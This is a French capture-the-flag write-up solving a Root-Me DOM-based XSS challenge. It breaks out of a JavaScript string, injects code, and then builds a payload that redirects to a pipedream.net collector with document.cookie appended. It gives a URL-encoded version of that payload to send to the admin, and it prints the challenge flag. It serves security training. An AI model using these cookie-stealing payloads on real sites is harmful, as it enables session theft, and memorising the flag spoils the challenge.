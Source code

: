 ## Challenges

### Web Client

### Challenge: XSS DOM Based - Introduction

#### Problème

Ce défi consiste à comprendre et à exploiter une faille XSS basée sur le DOM.

#### Approche Initiale :

En arrivant sur la page, deux sujets sont présentés (Main et Contact). Analysons l'application Web liée au sujet "main".

````javascript

var random = Math.random() * (99);
var number = '';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}

````
Le script JavaScript compare les valeurs de "random" et "number" (où "number" est notre entrée). Si leurs valeurs sont égales, un message est renvoyé :   `You won this game but you don\'t have the flag ;)'`

Sinon:
`Sorry, wrong answer ! The right answer was ' + random;`

Nous pouvons essayer d'entrer une valeur simple afin de voir ce qu'il se passe dans le DOM, par exemple en entrant "Hello world".

`var number = 'Hello world';` 

Nous pouvons constater que notre valeur est bien représentée dans le DOM.

#### Injection Tentative :

**Analyse :**


```javascript 
var number = 'input';
```
Notre entrée utilisateur est reflétée en tant que chaîne de caractères. En manipulant notre entrée, nous pourrions potentiellement injecter notre charge utile en tant que deuxième paramètre dans notre variable. Imaginons envoyer la charge utile suivante :

```javascript 
'; Hola

```
Nous remarquons que notre entrée est reflétée dans le DOM en tant que deuxième paramètre :

```javascript 
var number = ''; Hola';

```
Pour éviter les erreurs de syntaxe, nous terminons notre entrée avec un ";" et déclarons une variable vide :

```javascript 
’ ; chayma ; var chama= ’

```
Résultant en notre entrée étant isolée :

```javascript 
var number = ’ ; chayma; var chama= ’;

```
**Injection:**

Maintenant que nous avons isolé notre entrée, tentons d'injecter du code JavaScript :

```javascript
'; alert('xss basé sur le DOM'); var chama= '; 
```
Le résultat est réussi ! Nous avons réussi à injecter du code JavaScrip.

#### Exploitation : Récupération du Cookie de l'Administrateur

Pour cela, nous redirigeons vers un serveur séparé et ouvrons le document.cookie contenant les informations du cookie. Nous utiliserons RequestBin pour collecter les requêtes HTTP.
    
 ```javascript
    '; document.location.href = 'https://xxxxxxxxxxx.m.pipedream.net/' .concat(document.cookie); var cat=';

```

La redirection est réussie. Maintenant, sur la page de contact, nous encodons notre charge utile et envoyons l'URL à l'administrateur pour récupérer le flag.

URL de la charge utile encodée :

```perl
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27%3B+document.location.replace%28%27https%3A%2F%2Fenqy3luifrlfrhu.m.pipedream.net%2F%27+.concat%28document.cookie%29%29%3B+var+cat%3D%27%3B

```
#### Solution

Format du Flag :

```bash
/flag=rootme{XSSxxxInTr0}
```
Cette approche démontre avec succès l'exploitation de la faille XSS basée sur le DOM pour récupérer le flag.

**NB :**
 
La logique de la résolution de ce challenge est similaire à celle de `XSS - Stockée 1`, vous pouvez vous y référer pour plus de détails. (Dans les deux cas,on a utilisé une injection de code JavaScript via un formulaire de contact pour exfiltrer le cookie de session de l'administrateur vers un serveur externe. Dans la première résolution, on a utilisé une balise `<img>` pour cacher le payload, tandis que dans la seconde, on a utilisé une redirection avec document.location.href)
